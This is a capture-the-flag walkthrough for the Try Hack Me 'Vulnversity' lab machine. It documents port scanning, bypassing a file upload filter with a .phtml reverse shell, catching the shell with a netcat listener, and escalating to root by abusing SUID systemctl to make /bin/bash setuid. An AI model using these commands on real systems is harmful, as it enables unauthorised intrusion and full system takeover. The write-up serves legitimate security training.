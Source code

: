 ```yaml
---
layout: default
title: Vulnversity
parent: Try Hack Me - Windows
nav_order: 1
---
```


# Scanning

---

```bash
┌──(vagrant㉿kali)-[~/Documents/THM/vulnversity]
└─$ sudo nmap -Pn -p- -sC -sV -T4 --open 10.10.121.123

Nmap scan report for 10.10.121.123

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3

22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)

139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)

3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved

3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Vuln University
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2024-01-03T21:07:48-05:00
|_clock-skew: mean: 1h40m10s, deviation: 2h53m12s, median: 9s
|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time:
|   date: 2024-01-04T02:07:48
|_  start_date: N/A
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 67.76 seconds



```

# Enumeration

---

## SMB | 445

```bash
nmap --script smb-vuln* -p445 10.10.10.161
```

## HTTP | 3128

## HTTP | 3333

Gobuster uncovers _/internal_ directory

![upload](../../../assets/images/ctfs/try_hack_me/vulnversity/upload.png)

Attempted to upload _test.php_ but received "Extension not allowed".

Testing with Burp.

Able to upload .phtml file

# Exploitation

Attempting to upload php-reverse-shell.php from Pentest Monkey.

Edit IP and Port.

Start netcat listener and upload rev.phtml reverse shell.

Gobuster uncovered _/internal/uploads_ and that is where the uploaded PHP reverse shell file is located.

```bash
┌──(vagrant㉿kali)-[~/Documents/THM/vulnversity]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.18.48.44] from (UNKNOWN) [10.10.121.123] 38500
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 21:32:45 up 30 min,  0 users,  load average: 0.26, 0.24, 0.24
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

# Privesc

Located user _bill_

## Check for SUID Permissions

```bash
find / -perm -u=s -type f 2>/dev/null

www-data@vulnuniversity:/tmp$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
/sbin/mount.cifs
```

## Exploit /bin/systemctl

Checking GTFObins we have a path to privesc by exploiting _/bin/systemctl_

![systemctl](../../../assets/images/ctfs/try_hack_me/vulnversity/systemctl.png)

We can exploit in the following manner by giving effective root privileges to _/bin/bash_

```bash
www-data@vulnuniversity:/tmp$ TF=$(mktemp).service
www-data@vulnuniversity:/tmp$ echo '[Service]
> Type=oneshot
> ExecStart=/bin/sh -c "chmod +s /bin/bash"
> [Install]
> WantedBy=multi-user.target' > $TF
www-data@vulnuniversity:/tmp$ /bin/systemctl link $TF
Created symlink from /etc/systemd/system/tmp.o6GKXSAfpc.service to /tmp/tmp.o6GKXSAfpc.service.
www-data@vulnuniversity:/tmp$ /bin/systemctl enable --now $TF
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.o6GKXSAfpc.service to /tmp/tmp.o6GKXSAfpc.service.
www-data@vulnuniversity:/tmp$ bash -p
bash-4.3# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
bash-4.3#

```
